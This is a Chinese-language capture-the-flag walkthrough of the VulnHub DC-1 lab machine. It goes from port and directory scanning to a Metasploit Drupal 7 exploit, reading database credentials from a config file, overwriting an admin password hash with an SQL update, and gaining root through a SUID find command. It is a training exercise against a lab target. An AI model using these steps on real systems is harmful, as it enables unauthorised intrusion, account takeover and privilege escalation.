# VulHub--DC-1

## 1. 信息收集

### 1.1 端口扫描

```bash
nmap -sS -sV -A -O -T4 -p- 192.168.56.104
```



结果:

端口22：OpenSSH 6.0p1
端口80：Apache httpd 2.2.22
端口111：rpcbind 2-4 (RPC #100000)
端口53312：(RPC #100024)

### 1.2 目录扫描

```bash
dirsearch -u http://192.168.56.104/
```









没什么可以利用的

### 1.3 CMSmap扫描

```bash
./cmsmap.py -f D -F --noedb -d 'http://192.168.56.104/'
```



发现Drupal版本为7

### 1.4 历史漏洞查找

```bash
msfconsole -q

search drupal 7

```



7.x里选一个,这里选择6号payload,更改完对应的配置后执行



执行成功,拿到网站的shell



### 1.5 提权

遍历网站目录时发现数据库配置文件

dbuser:R0ck3t



登录mysql后,发现用户表



提示说爆破是不常见的解法,尝试修改密码

发现一个密码的hash值生成脚本,我们通过这个脚本生成弱口令密码的hash值覆盖数据库中得到hash值



```bash
./password-hash.sh 123456
```



得到123456的hash值为:
```
$S$D9MjlBl0i9hdzrurBwSbv0oKooS0I.BshwnUh1pEUOfJrV8dt20c"
```

修改数据库中user表的密码hash值,使用新密码登录

```bash
update users set pass='$S$D9MjlBl0i9hdzrurBwSbv0oKooS0I.BshwnUh1pEUOfJrV8dt20c';
```

登录成功



在文章管理界面发现提示:



查看/etc/passwd发现flag4用户,进入家目录发现flag4.txt可读,得到新提示



提示让我们访问root下的flag,查看发现没有权限,尝试提权使用suid提权

```bash
find / -perm -4000 -type f 2>/dev/null
```



发现find命令有suid权限,我们可以使用find命令提权

```bash
find . -exec /bin/bash -p \; -quit
```

执行成功,拿到root权限



查看root下的flag,发现finalflag.txt,读取后得到flag




